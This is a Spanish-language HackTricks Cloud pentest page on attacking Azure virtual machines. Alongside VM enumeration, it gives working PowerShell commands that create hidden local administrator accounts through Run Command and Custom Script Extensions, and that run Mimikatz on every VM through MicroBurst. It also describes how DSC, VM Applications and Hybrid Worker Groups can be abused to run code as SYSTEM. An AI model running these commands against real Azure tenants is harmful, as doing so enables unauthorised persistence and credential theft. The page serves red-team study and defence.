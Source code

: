 # Az - Máquinas Virtuales y Red

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información básica

[De la documentación:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Las máquinas virtuales de Azure son uno de varios tipos de [recursos de computación escalables y bajo demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que ofrece Azure. Típicamente, eliges una máquina virtual cuando necesitas más control sobre el entorno de computación que las otras opciones ofrecen. Este artículo te proporciona información sobre lo que debes considerar antes de crear una máquina virtual, cómo crearla y cómo gestionarla.

## Información de Red de Azure

Las redes de Azure contienen **diferentes entidades y formas de configurarlas.** Puedes encontrar una breve **descripción,** **ejemplos** y comandos de **enumeración** de las diferentes entidades de red de Azure en:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** ofrece una solución segura y completamente gestionada de acceso RDP (Protocolo de Escritorio Remoto) y SSH (Shell Seguro) a través de SSL mediante el portal de Azure. Está integrado dentro de una Red Virtual de Azure, permitiendo conectividad RDP y SSH a las VMs utilizando IPs privadas, evitando la necesidad de IPs públicas. Esto lo convierte en una alternativa más segura y conveniente a los métodos tradicionales que implican asignaciones de IP públicas y configuraciones de reglas NSG para el acceso a las VMs. Los desarrolladores y el personal de TI pueden acceder de forma segura a las VMs desde el portal de Azure utilizando sus navegadores web, agilizando el proceso para entornos de desarrollo y pruebas.

Para listar todos los Hosts de Azure Bastion en tu suscripción, puedes usar el siguiente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeración de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Ejecutar comandos en una VM**

### **Inicio de sesión AAD en VM**

Es posible permitir el acceso a usuarios autenticados a través de AzureAD. Por ejemplo, al intentar acceder a una **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (es importante **usar el correo electrónico** con el azurecorp utilizado al intentar iniciar sesión) podrías obtener un error como: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Simplemente **sigue esas instrucciones** yendo a [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando el código, usa el correo electrónico y la contraseña como credenciales y podrás conectarte a través de SSH (si ese usuario tiene suficientes permisos para hacerlo: rol de `Inicio de sesión de administrador de máquina virtual` o `Inicio de sesión de usuario de máquina virtual`).

### **Ejecutar comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Ejecutar Extensión de Script Personalizado**

Las extensiones de máquinas virtuales (VM) de Azure son **pequeñas aplicaciones** que proporcionan configuración y automatización **tareas** posteriores a la implementación en **VMs de Azure**. Por ejemplo, si una máquina virtual requiere instalación de software, protección antivirus o la capacidad de ejecutar un script dentro de ella, puedes usar una extensión de VM.

Por lo tanto, si tienes acceso para escribirlo, puedes ejecutar código arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) es una herramienta de PowerShell similar a Ansible, utilizada para configurar un host a través de código. DSC se integra con Azure, permitiendo la carga de archivos de configuración específicos. Estos archivos deben adherirse a una sintaxis estricta. Notablemente, la extensión DSC en Azure puede ejecutar comandos de archivos que cumplen con ciertos criterios de formato, incluso si la sintaxis no es correcta según los estándares de DSC, como se muestra en la figura proporcionada.

La ejecución de estos comandos es facilitada por la [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) función en Az PowerShell. Los requisitos incluyen un archivo **.PS1** con una función definida y el archivo debe estar comprimido en un archivo **.zip**. Aunque la sintaxis puede no ser precisa para DSC, el código aún se ejecutará. Sin embargo, la extensión marcará el estado de ejecución como "fallo", y no se verá ninguna salida del comando debido a que el estado es sobrescrito por el mensaje de fallo.

### VM Application Definitions

Las Definiciones de Aplicaciones de VM permiten el despliegue repetible de aplicaciones versionadas en una VM de Azure. Este recurso admite el despliegue y la actualización de aplicaciones en VMs. Para configurar esto, se requieren varios pasos, que implican comandos como **`New-AzGalleryApplication`** y **`New-AzGalleryApplicationVersion`** en Az PowerShell.

La ejecución de aplicaciones o comandos a través de este método involucra la **"VMAppExtension"**, que se instala automáticamente cuando se aplica una aplicación a una VM. La extensión recupera el archivo de la URI especificada y lo nombra exactamente como la aplicación, sin una extensión. Para ejecutar el archivo correctamente, el campo "ManageActions" en la llamada a la API REST debe configurarse para renombrar el archivo con la extensión apropiada. La configuración de este método, una vez completada, se parecerá a la estructura mostrada en la figura proporcionada.

Sin embargo, este método de ejecución es relativamente lento, tardando alrededor de 3-4 minutos en ejecutar una aplicación o comando. Los archivos relacionados con este proceso se almacenan en directorios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para la copia de la aplicación y `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para el estado de ejecución).

Ambas técnicas proporcionan formas únicas de ejecutar comandos y desplegar aplicaciones en entornos de Azure, cada una con su propio conjunto de requisitos, pasos y consideraciones.

### Hybrid Worker Groups (HWGs) en Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) son una característica en Azure que permite que los Runbooks, configurados en una Cuenta de Automatización, se ejecuten en una Máquina Virtual (VM) de Azure que forma parte del HWG designado. Esta ejecución es facilitada a través de una extensión instalada en la VM, que despliega el código del Runbook en la VM. Un aspecto significativo de este proceso es que las credenciales reales no son un factor en la ejecución porque el código se ejecuta con privilegios elevados, específicamente como **SYSTEM** o root, como se ilustra en la figura proporcionada.

Un detalle crucial para aquellos que utilizan VMs de Windows 10 es la necesidad de especificar la versión de PowerShell para el Runbook. Debe configurarse para ejecutarse como PowerShell Version 5.1 en lugar de 7.1. Este requisito proviene del hecho de que PowerShell 7.1 no está instalado por defecto en estas VMs, lo que lleva a un fallo en la ejecución del script si se especifica la versión 7.1.

Esta característica de Azure ofrece un método robusto para automatizar y gestionar tareas en entornos híbridos, permitiendo la gestión y ejecución centralizada de tareas en VMs de Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
